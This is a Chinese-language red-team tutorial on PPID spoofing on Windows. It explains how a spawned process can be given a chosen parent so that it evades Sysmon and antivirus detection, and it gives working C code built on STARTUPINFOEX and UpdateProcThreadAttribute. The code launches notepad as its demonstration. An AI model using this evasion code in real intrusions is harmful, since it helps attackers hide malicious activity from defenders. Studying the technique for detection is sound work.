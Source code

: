 ```yaml
---
title: PPID欺骗
author: 二两
date: 2022-10-25
categories: [RedTeam]
tags: [pentest，post-exploitation]
---
```


## 0X00 PPID欺骗介绍

在我们使用CreateProcess API时，默认情况下，最后的进程将作为调用方的子进程生成。然而，"PPID欺骗"技术允许调用者更改派生进程的父进程。所以如果我们的beacon运行在powershell中，我们可以就将进程派生到一个完全不同的进程的子进程中，比如explorer.exe 。

这将导致Sysmon等应用程序记录新父级下的进程创建。当一个beacon在一个不合法的进程中运行(例如横向移动或其他一些漏洞传递)，并且进程创建事件会被杀软检测或被完全阻止，那么这个方法就有了其作用。

## 0x01 技术实现

这个技术是在[STARTUPINFOEX](https://learn.microsoft.com/zh-cn/windows/win32/api/winbase/ns-winbase-startupinfoexw) 结构中实现的，这个结构具有LPPROC_THEAD_ATTRIBUTE_LIST属性。这允许我们向CreateProcess调用传递附加属性。对于PPID欺骗，我们关注的PROC_THREAD_ATTRIBUTE_PARENT_PROCESS。lpValue参数是指向要使用的进程句柄的指针，而不是将调用进程用作正在创建的进程的父进程。要使用的进程必须具有process_CREATE_process访问权限。 

下面用一段简短的代码来实现获取父进程PID和初始化

```c
#include <iostream>
#include <Windows.h>
#include <winternl.h>

int main(int argc, const char* argv[])
{
	//获取父进程PID
	DWORD parentPid = atoi(argv[1]);

	//初始化
	STARTUPINFOEX sie = { sizeof(sie) };
}
```

我们需要先知道所需的大小，然后分配一个内存区域来保存属性列表。这个列表可以有多个属性，但由于我们只对PROC_THREAD_ATTRIBUTE_PARENT_PROCESS感兴趣，因此大小为1。所以我们调用InitializeProcThreadAttributeList并提供NULL目标，但lpSize变量将填充我们需要的大小。因为这个API返回bool，所以这个调用也将始终返回FALSE。

```c
SIZE_T lpSize;
InitializeProcThreadAttributeList(NULL, 1, 0, &lpSize);
```

接下来我们使用malloc在STARTUPINFOEX的lpAttributeList属性上分配内存区域。我们再次调用InitializeProcThreadAttributeList，它应该返回TRUE。

```c
//为STARTUPINFOEX上的属性列表分配内存
sie.lpAttributeList = (PPROC_THREAD_ATTRIBUTE_LIST)malloc(lpSize);

//再次调用InitializeProcThreadAttributeList，此时应返回TRUE
if (!InitializeProcThreadAttributeList(sie.lpAttributeList, 1, 0, &lpSize))
{
	printf("InitializeProcThreadAttributeList failed. Error code: %d.\n", GetLastError());
	return 0;
}
```

获取父进程的句柄并将其传递到UpdateProcThreadAttribute的调用中。 

```c
//获取进程的句柄以充当父进程
HANDLE hParentProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, parentPid);

//调用UpdateProcThreadAttribute
if (!UpdateProcThreadAttribute(sie.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess, sizeof(HANDLE), NULL, NULL))
{
	printf("UpdateProcThreadAttribute failed. Error code: %d.\n", GetLastError());
	return 0;
}
```

剩下要做的就是调用CreateProcess，确保传递EXTENDED_STARTUPINFO_PRESENT

```c
//调用CreateProcess并传递EXTENDED_STARTUPINFO_PRESENT
PROCESS_INFORMATION pi;

if (!CreateProcess(
	L"C:\\Windows\\System32\\notepad.exe",
	NULL,
	0,
	0,
	FALSE,
	EXTENDED_STARTUPINFO_PRESENT,
	NULL,
	L"C:\\Windows\\System32",
	&sie.StartupInfo,
	&pi))
{
	printf("CreateProcess failed. Error code: %d.\n", GetLastError());
	return 0;
}

printf("PID created: %d", pi.dwProcessId);
return 1;
```

## 0x02  实现效果

![](../img/ppid_success_1.jpg)

![](../img/ppid_success_2.jpg)



## 0x03 小结

本文介绍了PPID欺骗实现原理以及怎么用Windows API 去实现

### 注：本文仅用于安全研究和学习之用